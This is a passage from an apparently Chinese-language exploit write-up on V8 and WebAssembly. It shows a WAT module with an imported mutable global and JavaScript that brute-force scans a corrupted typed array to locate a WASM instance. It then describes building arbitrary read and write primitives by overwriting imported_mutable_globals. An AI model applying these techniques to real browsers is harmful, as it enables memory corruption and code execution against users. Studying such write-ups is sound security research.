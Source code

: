 ```wasm
(module
	(global $g (import "js" "global") (mut i64))
	
   	(func (export "getGlobal") (result i64)
        (global.get $g)
    )
    
   	(func (export "setGlobal") (param $val i64)
        (global.set $g (local.get $val))
    )
)
```

- 此模式為 wat，需要透過 `wat2wasm` 轉為 wasm 才能放到 js array 並餵入 `WebAssembly.Module()`



可以把 `imported_mutable_globals` 視為 `uint64 (*imported_mutable_globals)[]` (a pointer point to array)，在操作 global 變數時，會先 deference `imported_mutable_globals` 取得 array 位址，而後從某個地方取得要存取的 global 變數 index，在對應 index 的地方還會有一個 pointer 指向變數真正的位址。舉例來說，在上面的範例程式碼中只有一個 global `global`，如果對他做操作，實際上就是 dereference `imported_mutable_globals` 兩次 (index 為 0)。



不過我要怎麼知道 wasm instance 的位址在哪？ 我採取的方式為透過 `TypedArray` 搜尋只有 wasm 才有的 data pattern，因為在每次都是新執行環境的情況下，像 Map 以及相關資料的 32-bit offset 都會是固定的，並且不受 aslr 所影響，因此直接 brute force 搜尋 wasm 對應的 pattern，符合的就是我們 wasm instance 所在的位址。要注意的是，我並沒有很了解 V8 heap，但是不同 heap subregion 中間會用 guard page 保護 (透過 `vmmap` 得知)，並且一些 data 的起始位址會被侷限在某個 heap subregion，所以要搜的範圍其實沒有很多：

```js
for (let i = 0x081c0000/8; i < 0x08380000/8 - 3; i++) {
    // aligned wasm
    if (victim[i] == 0x0800224908206439n && victim[i+1] == 0x0800224908002249n) {
        wasm_idx = BigInt(i);
        wasm_addr = wasm_idx*8n + js_base
        info("wasm_idx", wasm_idx);
        info("wasm_addr", wasm_addr);
        aligned = true;
    }
    // not aligned wasm
    if (victim[i] >> 32n == 0x08206439n &&
        victim[i+1] == 0x0800224908002249n && victim[i+2] && 0x0800224908002249n) {
        wasm_idx = BigInt(i);
        wasm_addr = wasm_idx*8n + js_base
        info("wasm_idx", wasm_idx);
        info("wasm_addr", wasm_addr);
    }
}
```

- 因為 object 並不一定對齊 0x8，加上我的 `TypedArray` 用的是 `BigUint64Array`，所以我要額外去 handle 沒有對齊的情況
- 有發現 V8 heap 隨機的位址似乎是以數秒為一個單位做隨機，短時間內重複執行的話 heap 位址都會是相同的



有了 wasm 的位址後就能構造 aar / aaw primitive。實作方式的部分總結來說，如果我們要做到 `aar(addr)`，只需要將 `imported_mutable_globals` 寫入 `js_base`，並在 `js_base+0` 寫入 `addr`，這樣 `*imported_mutable_globals == js_base`、`*js_base == addr`，就能對我們的 target address 做讀取了，而 `aaw(addr, value)` 也使用相同的方法：
